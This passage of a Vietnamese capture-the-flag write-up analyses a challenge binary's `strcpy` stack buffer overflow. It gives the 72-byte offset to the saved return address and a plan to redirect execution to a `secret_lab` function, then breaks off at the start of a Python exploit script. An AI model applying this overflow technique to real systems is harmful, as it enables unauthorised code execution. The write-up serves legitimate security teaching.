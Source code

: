 Như ta có thể thấy, về tổng quan thì chương trình sẽ yêu cầu ta nhập các `choice` sau đó nhảy đến `choice` mà ta đã chọn, để ý ở case 1:

```c
      case 1:
        printf("Enter quantum coordinates: ");
        fgets(s, 128, stdin);
        quantum_entangle(s);
        break;
```
```c
char *__fastcall quantum_entangle(const char *src)
{
  char dest[64]; // [rsp+10h] [rbp-40h] BYREF

  return strcpy(dest, src);
}
```

Có thể thấy trong `quantum_entangle` nó sử dụng `strcpy` để copy data ta input vào với số lượng tối đa là 64 bytes. Và kiểm tra kĩ hơn ở trong GDB:

![alt text](image-1.png)

![alt text](image-2.png)

Ta có thể thấy stack frame của `quantum_entangle` không quá lớn và offset từ điểm nó copy vào đến `saved rip` là 72. Vì thế mặc dù dest[64], nhưng đặc điểm của hàm `strcpy` là copy dữ liệu mà không quan tâm xem nó sẽ copy bao nhiêu, nên vì thế mà gây ra lỗi `Buffer Overflow`.

## Exploit Development

Vì ta đã biết được lỗi là gì và binary này cũng không có những lớp bảo mật để chống `Buffer Overflow` nên ta sẽ dể dàng kiểm soát được `saved rip` của `quantum_entangle` và thay đổi nó thành địa chỉ của `secret_lab`, và khi `quantum_entangle` nó sẽ return vào `secret_lab`, việc tiếp theo ta làm là chỉ cần nhập `hardcode` đã có:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from time import sleep

context.log_level = 'debug'
exe = context.binary = ELF('./chall', checksec=False)
libc = exe.libc

def init(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
```